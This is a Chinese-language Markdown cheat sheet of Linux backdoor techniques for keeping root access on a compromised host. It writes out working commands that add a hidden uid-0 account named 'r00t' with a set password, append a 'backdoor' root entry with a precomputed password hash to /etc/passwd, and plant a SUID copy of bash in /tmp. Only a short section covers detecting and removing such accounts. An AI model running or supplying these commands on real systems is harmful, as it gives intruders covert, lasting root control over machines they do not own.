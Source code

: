 ## Linux后门汇总

### 1. 添加root权限账户

> 添加账户为：r00t 密码为password的账户：

####第一种：bash命令添加

```bash
useradd -u 0 -o -g root -G root r00t;echo r00t:Password0224|chpasswd
```

上述命令可能执行不成功，则将此命令分成两条命令分开执行，或设置密码为复杂密码

centos下添加成功，如下所示：

![image-20200328205804077](/Users/dawson0x00/Library/Application Support/typora-user-images/image-20200328205804077.png)

![image-20200328205928940](/Users/dawson0x00/Library/Application Support/typora-user-images/image-20200328205928940.png)

#### 第二种：perl命令添加

```perl
perl -e 'print crypt("Poker", "AA"). "\n"'  # 此处AA为salt 加盐
echo "backdoor:AALvuWiRPz82I:0:0:me:/home/backdoor:/bin/bash">>/etc/passwd
```

![image-20200328212032057](/Users/dawson0x00/Library/Application Support/typora-user-images/image-20200328212032057.png)



**检测清除**

1. 查看/etc/passwd文件是否有uid=0的非root账户
2. 清除对应账户

### 2. Suid权限位后门



> **原理** 设置了suid权限位的文件在执行时具有该文件拥有者的权限，故我们可以在root权限下留一个bash文件的后门，使得在低权限时能够通过该后门获取root权限
>
> 用法：使用高权限账户留后门，在低权限账户登陆可使用该后门直接切换到高权限下
>
> [linux：SUID、SGID详解链接](https://www.jianshu.com/p/71acd8dad454)

```bash
cp /bin/bash /tmp/test
chmod 4755 /tmp/test # 或者 chmod u+s /tmp/test
/tmp/test -p 

#chmod 4755与chmod 755 的区别在于开头多了一位，这个4表示其他用户执行文件时，具有与所有者相当的权限。
```

![image-20200328214816863](/Users/dawson0x00/Library/Application Support/typora-user-images/image-20200328214816863.png)

![image-20200328214932693](/Users/dawson0x00/Library/Application Support/typora-user-images/image-20200328214932693.png)
